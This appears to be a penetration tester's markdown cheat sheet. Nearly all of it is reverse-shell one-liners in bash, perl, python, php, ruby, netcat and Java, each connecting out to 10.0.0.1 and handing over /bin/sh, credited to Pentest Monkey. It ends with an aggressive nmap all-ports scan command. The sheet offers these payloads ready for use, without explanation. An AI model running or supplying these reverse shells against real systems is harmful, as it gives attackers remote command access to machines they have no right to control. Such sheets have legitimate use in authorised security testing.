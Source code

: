 # Notes Cheat sheet

## Reverse Shells

---
> bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

> perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
> python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
> ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
> netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
> java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
*Shells Info for Pentest Monkey*
[Pentest Monkey](http://pentestmonkey.net "Web Pentest-Monkey")

## Ports Enumeration
---
> nmap
```nmap
nmap -p- --open -T5 -v -n -oG AllPorts IP
```
---
